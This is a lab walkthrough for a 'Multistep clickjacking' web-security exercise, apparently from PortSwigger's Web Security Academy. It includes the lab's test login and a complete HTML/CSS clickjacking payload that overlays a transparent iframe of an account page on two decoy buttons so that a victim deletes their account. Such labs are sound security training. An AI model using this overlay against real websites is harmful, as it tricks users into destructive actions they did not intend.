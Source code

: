 Title: Multistep clickjacking
Level: Practitioner
Desc: This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.
You can log in to the account yourself using the following credentials: wiener:peter 

# Walkthrough: 

First screen:
<img width="810" height="442" alt="image" src="https://github.com/user-attachments/assets/10ba7da2-df00-40d6-b8cb-2fce2ed849a1" />

Second screen: 
<img width="728" height="249" alt="image" src="https://github.com/user-attachments/assets/4f4068a3-73b5-4e81-bf6a-dd14f6034037" />


```
<style>
    #if1 {
        position:relative;
        width: 400;
        height: 850;
        opacity: 0.1;
        z-index: 2;
    }
    #div1 {
        position:absolute;
        top: 500;
        left: 50;
        z-index: 1;
    }
    #div2 {
        position:absolute;
        top: 320;
        left: 50;
        z-index: 1;
    }
</style>
<div id="div1">Click me first</div>
<div id="div2">Click me next</div>
<iframe id="if1" src="https://0a8700ee04b0555281ddf8de00de0097.web-security-academy.net/my-account"></iframe>
```



